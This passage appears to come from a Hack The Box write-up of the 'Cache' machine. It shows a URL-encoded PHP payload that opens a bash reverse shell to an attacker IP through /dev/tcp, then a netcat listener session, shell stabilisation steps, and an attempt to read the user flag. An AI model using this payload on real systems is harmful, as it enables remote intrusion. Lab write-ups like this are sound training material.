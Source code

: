 ![POC for RCE](https://github.com/joelczk/writeups/blob/main/HTB/Images/cache/rce_poc.PNG)

Now, what we have to do is to craft a single line url-encoded PHP payload, ```%3C%3Fphp%0A%0Aexec(%22%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.250%2F3001%200%3E%261%27%22)%3B``` that uploads a reverse shell to the vulnerable website. We will then trigger the payload by visiting ```/portal/exploit.php```

![RCE reverse shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/cache/rce_reverse_shell.PNG)

### Obtaining reverse shell
Now, we just have to stabilize the reverse shell

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.188] 52156
bash: cannot set terminal process group (1603): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/portal$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<al$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cache:/var/www/hms.htb/public_html/portal$ export TERM=xterm
export TERM=xterm
www-data@cache:/var/www/hms.htb/public_html/portal$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@cache:/var/www/hms.htb/public_html/portal$ 
```

### Obtaining user flag
However, we realize that we do not have the appropriate permissions to obtain the user flag.

```
www-data@cache:/$ cd /home/ash
cd /home/ash
www-data@cache:/home/ash$ ls
ls
Desktop  Documents  Downloads  Music  Pictures  Public  user.txt
www-data@cache:/home/ash$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@cache:/home/ash$ 
```
